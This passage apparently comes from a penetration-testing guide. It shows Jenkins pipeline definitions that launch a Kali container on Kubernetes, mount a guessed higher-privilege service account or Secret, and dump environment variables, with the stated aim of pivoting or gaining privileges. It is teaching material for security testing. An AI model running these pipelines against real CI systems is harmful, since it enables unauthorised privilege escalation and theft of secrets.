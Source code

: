 ```groovy
                stage('Say hello') {
                    steps {
                        echo 'Hello from a docker container'
                        sh 'env'
                    }
                }
            }
        }
    }
}
```

Another example which tries mounting a serviceaccount (which may have more permissions than the default one, running your build) based on its name. You may need to guess or enumerate existing serviceaccounts first.

```groovy
pipeline { 
    stages {
        stage('Process pipeline') {
            agent {
                kubernetes {
                yaml """
                    spec:
                    	serviceAccount: MY_SERVICE_ACCOUNT
                        containers:
                        - name: kali-container
                          image: myregistry/mykali_image:1.0
                          imagePullPolicy: IfNotPresent
                          command:
                          - sleep
                          args:
                          - 1d
                """
                }
            }
            stages {
                stage('Say hello') {
                    steps {
                        echo 'Hello from a docker container'
                        sh 'env'
                    }
                }
            }
        }
    }
}
```

The same technique applies to try mounting a Secret. The end goal here would be to figure out how to configure your pod build to effectively pivot or gain privileges.

## Going further
